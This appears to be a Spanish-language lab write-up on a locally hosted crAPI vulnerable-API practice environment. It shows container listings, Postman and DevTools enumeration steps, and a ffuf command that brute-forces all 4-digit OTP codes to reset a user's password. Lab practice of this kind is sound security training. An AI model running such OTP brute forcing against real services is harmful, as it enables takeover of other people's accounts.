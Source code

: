 Resultado:

```bash
CONTAINER ID   IMAGE                          COMMAND                  CREATED              STATUS                            PORTS                                                                                                NAMES
918367f7a6cb   crapi/crapi-web:latest         "/bin/sh -c /etc/ngi…"   5 seconds ago        Up 4 seconds (health: starting)   127.0.0.1:8888->80/tcp, 127.0.0.1:30080->80/tcp, 127.0.0.1:8443->443/tcp, 127.0.0.1:30443->443/tcp   crapi-web
84acf5a3aa05   crapi/crapi-workshop:latest    "/bin/sh -c /app/run…"   21 seconds ago       Up 20 seconds (healthy)                                                                                                                crapi-workshop
c12d85e52818   crapi/crapi-community:latest   "/bin/sh -c /app/main"   37 seconds ago       Up 36 seconds (healthy)           6060/tcp                                                                                             crapi-community
4bfaa6474dc3   crapi/crapi-identity:latest    "/entrypoint.sh"         About a minute ago   Up About a minute (healthy)       10001/tcp                                                                                            crapi-identity
1671cb00b66d   crapi/mailhog:latest           "MailHog"                About a minute ago   Up About a minute (healthy)       1025/tcp, 127.0.0.1:8025->8025/tcp                                                                   mailhog
bd768b0989e0   mongo:4.4                      "docker-entrypoint.s…"   About a minute ago   Up About a minute (healthy)       27017/tcp                                                                                            mongodb
64bad5914e61   crapi/gateway-service:latest   "/app/server"            About a minute ago   Up About a minute (healthy)       443/tcp                                                                                              api.mypremiumdealership.com
f73a902c0b56   postgres:14                    "docker-entrypoint.s…"   About a minute ago   Up About a minute (healthy)       5432/tcp                                                                                             postgresdb
```

*Extra:* para detener y retomar

```
docker-compose stop
docker-compose start
```

Acción: en el navegador señalamos en el DevTools la opción de filtrado `XHR`

![Captura de pantalla](./imágenes/devtool.png)

Acción: desde [Postman](../../../Herramientas/Postman/Postman.md) podemos ir enumerando la API para trabajar organizadamente

---

Acción: probamos a cambiar la contraseña de un usuario el cual conocemos su correo y sabemos el patrón que solicita la API que es un código OTP

```bash
ffuf -u http://localhost:8888/identity/api/auth/v2/check-otp -w /usr/share/SecLists/Fuzzing/4-digits-0000-9999.txt -p 1 -d '{"email":"metahumo@mail.com","otp":"FUZZ","password":"Baleares123!"}' -H 'Content-Type:application/json' -fc 500
```
